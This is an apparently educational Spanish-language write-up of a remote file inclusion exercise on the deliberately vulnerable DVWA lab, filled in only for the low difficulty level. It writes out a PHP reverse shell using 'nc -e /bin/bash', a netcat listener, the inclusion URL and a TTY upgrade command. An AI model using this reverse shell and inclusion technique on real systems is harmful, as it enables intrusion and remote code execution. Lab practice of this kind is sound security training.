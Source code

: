 # RFI

Remote file inclusion (RFI) es una vulnerabilidad que permite a un atacante incluir archivos de un servidor remoto. Esto puede ser utilizado para incluir archivos PHP, que luego pueden ser utilizados para ejecutar código arbitrario en el servidor.

## Bajo

Para comenzar, podemos intentar lanzar un shell remoto escrito en PHP `php-reverse-shell.php` que se encuentra en nuestro servidor local y que previamente hemos creado con el siguiente contenido:

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

A continuación, ponemos en escucha el puerto 4000 en nuestro servidor local para recibir la conexión del servidor remoto:

```bash
nc -lvnp 4000
```

Una vez puesto en escucha, podemos intentar incluir el archivo `php-reverse-shell.php` en el servidor remoto a través de la siguiente URI:

```
http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost/php-reverse-shell.php
```

Una vez incluido el archivo, el servidor remoto intentará conectarse al servidor local en el puerto 4000, y si todo ha ido bien, obtendremos una shell remota.
Una vez hayamos obtenida la shell remota, podemos intentar mejorar la TTY para poder interactuar con ella de una manera más cómoda, para ello ejecutamos el siguiente comando:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Una vez mejorada la TTY, podemos intentar leer el archivo `fi.php` utilizando cat:

```bash
cat DVWA/hackable/flags/fi.php
```

![rfi](FI/assets/rfi.png)

## Medio

## Alto

## Imposible
